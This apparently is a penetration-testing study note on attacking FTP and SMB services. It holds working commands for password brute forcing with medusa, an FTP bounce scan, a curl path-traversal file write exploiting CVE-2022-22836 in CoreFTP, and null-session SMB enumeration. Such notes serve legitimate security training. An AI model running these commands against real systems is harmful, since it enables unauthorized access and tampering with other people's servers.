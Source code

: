 connect to ftp
```shell
ftp 192.168.2.142 
```

#### Protocol Specifics Attacks

##### Brute Forcing

```shell
medusa -u <user> -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp 
```

#### FTP Bounce Attack

```shell
nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
```

## Latest FTP vulns

 [CVE-2022-22836](https://nvd.nist.gov/vuln/detail/CVE-2022-22836)

This vulnerability is for an FTP service that does not correctly process the `HTTP PUT` request and leads to an `authenticated directory`/`path traversal,` and `arbitrary file write` vulnerability.

#### CoreFTP Exploitation

```shell-session
curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
```

We create a raw HTTP `PUT` request (`-X PUT`) with basic auth (`--basic -u <username>:<password>`), the path for the file (`--path-as-is https://<IP>/../../../../../whoops`), and its content (`--data-binary "PoC."`) with this command. Additionally, we specify the host header (`-H "Host: <IP>"`) with the IP address of our target system.


## Attacking SMB

### ENUM
```shell
sudo nmap 10.129.14.128 -sV -sC -p139,445
```

>[!important]
>SMB can be configured not to require authentication, which is often called a `null session`.

```shell
smbclient -N -L //10.129.14.128
```

```shell
smbmap -H 10.129.14.128
```

##### download/upload with smbmap
